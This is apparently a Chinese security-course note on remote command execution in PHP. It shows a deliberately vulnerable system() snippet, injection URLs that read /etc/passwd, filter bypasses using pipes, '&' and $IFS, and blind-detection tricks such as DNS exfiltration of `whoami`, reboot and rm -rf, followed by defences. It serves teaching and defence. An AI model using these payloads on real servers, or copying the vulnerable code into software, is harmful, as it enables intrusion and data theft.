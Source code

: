 # 远程命令执行漏洞

## 1、概述

**定义：** 用户提交的数据被服务器处理引擎当作系统命令语句片段执行。

**分类：** Web通用漏洞

**风险等级：** 严重/高危

**危害：** 可直接控制服务器/可通过提权控制服务器

**别名：** 命令注入/RCE（Remote_Command_Execution）

## 2、漏洞原理+利用

**漏洞示例：** 

```php
<?php print system("uname -".$_GET['a']);?>
```

**漏洞利用：** 

在传入参数后面跟上命令查看passwd文件
`http://xxx.com/rce.php/?a=1 ;cat /etc/passwd`

**常见限制：** 通过限制 ； 来防御    

```php
<?php
if(strstr($_GET['a'],";")){
	die("error");
}
system("uname-".$_GET['a']);
?>
```

**绕过 ：** 管道符/and符（&/%26）绕过

`http://xxx.com/rce.php/?a=1 | cat /etc/passwd`

`http://xxx.com/rce.php/?a=1%20%26%20cat /etc/passwd`

## 3、漏洞挖掘

**常见位置：** 参数值、Cookie值、X-Forwarded-For、Referer、User-Agent、Host。

> 理论上，命令注入点（注点）存在于HTTP请求的任何位置。

**有回显的命令注入判断：** 

- 通过读取系统中已存在的文件判断 `cat /etc/passwd`
- 使用一些基础命令`whoami`,`ls`......

**无回显命令注入判断：**

- 通过在web目录写入文件然后再访问， 例如： `echo ‘test’ > ‘/var/www/html/1.txt’`
- 使用curl 、DNS解析，例如：`ping ‘whoami’.dnslog.cn`
- SLEEP感知 (SLEEP 3)
- 反弹shell
- reboot
- rm -rf （慎用）

> Tips：优先使用$(xxx) ， 因为在执行过程中其优先级较高。另外 $IFS 相当于Linux shell下的空
> 格字符，例如 cat$IFS/etc/passwd

## 4、漏洞防御

`curl "http://www.aaa.cn/zh/"`

> curl ----命令
>
> “http://www.aaa.cn/zh/” ----参数

**方法一：** 使用硬编码

> 将参数固定，避免直接读取用户提交数据。

**方法二：** 如命令/代码确实需要动态调整，可将内容固定为一个选择列表

> 例如： 1 whoami  2 ipconfig  3 ls 

然后限定用户提交参数为整型（intval强制转换），根据对应关系执行命令/代码具体内容。

**方法三：** 对于内容不固定的可变参数，应当进行严格过滤，过滤方法可参考SQL注入防护策略，将两端
使用引号闭合，然后对所有内容进行转意义。

**方法四：** 禁止可变命令

## 5、实验

对应web实验4